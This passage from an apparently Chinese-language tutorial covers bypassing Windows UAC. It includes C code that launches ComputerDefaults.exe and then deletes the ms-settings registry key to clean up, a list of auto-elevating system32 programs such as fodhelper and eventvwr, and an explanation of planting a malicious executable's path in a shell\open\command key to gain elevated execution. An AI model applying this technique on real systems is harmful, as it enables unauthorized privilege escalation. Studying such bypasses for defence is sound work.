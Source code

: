 ```
// 创建进程ComputerDefaults
    CreateProcessA("C:\\Windows\\System32\\cmd.exe", (LPSTR)"/c C:\\Windows\\System32\\ComputerDefaults.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);

// 延时十秒，等ComputerDefaults.exe运行
    Sleep(10000);
// 清楚注册表项
    RegDeleteTreeA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings");

return 0;
}
```

### 0x02-2 寻找不弹 UAC 框的程序

在 cmd 一个个的去运行 exe，如果不弹 uac 框就运行的既是

结果如下，下面只是找的前面几个，后面的没有去测试

```
c:\windows\system32\bthudtask.exe                       ok
c:\windows\system32\changepk.exe
c:\windows\system32\ComputerDefaults.exe                ok      1
c:\windows\system32\dccw.exe                            ok      1
c:\windows\system32\dcomcnfg.exe                        ok      1
c:\windows\system32\DeviceEject.exe                     ok
c:\windows\system32\DeviceProperties.exe                ok
c:\windows\system32\djoin.exe                           ok
c:\windows\system32\easinvoker.exe                      ok
c:\windows\system32\EASPolicyManagerBrokerHost.exe      ok
c:\windows\system32\eudcedit.exe                        ok      1
c:\windows\system32\eventvwr.exe                        ok      1
c:\windows\system32\fodhelper.exe                       ok      1
c:\windows\system32\fsquirt.exe                         ok      1
c:\windows\system32\FXSUNATD.exe                        ok
c:\windows\system32\immersivetpmvscmgrsvr.exe           ok
c:\windows\system32\iscsicli.exe                        ok      1
c:\windows\system32\iscsicpl.exe                        ok      1
```

### 0x02-3 从注册表里查询 Shell\Open\command 键值对

通常以 shell\open\command 命名的键值对存储的是可执行文件的路径，如果 exe 程序运行的时候找到该键值对，就会运行该键值对的程序，而因为 exe 运行的时候是静默提升了权限，所以运行的该键值对的程序就已经过了 uac。

所以我们把恶意的 exe 路径写入该键值对，那么就能够过 uac 执行我们的恶意 exe。

使用 Procmon 监听，运行 0x02-2 的结果

这里以 c:\windows\system32\ComputerDefaults.exe 测试

过滤条件如下

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9Wv9fRNYl8MwhktBtvdDq4dRtG0YChYkNrfLiaIjDYFyNn8z7qdVA95Fcg/640?wx_fmt=png)
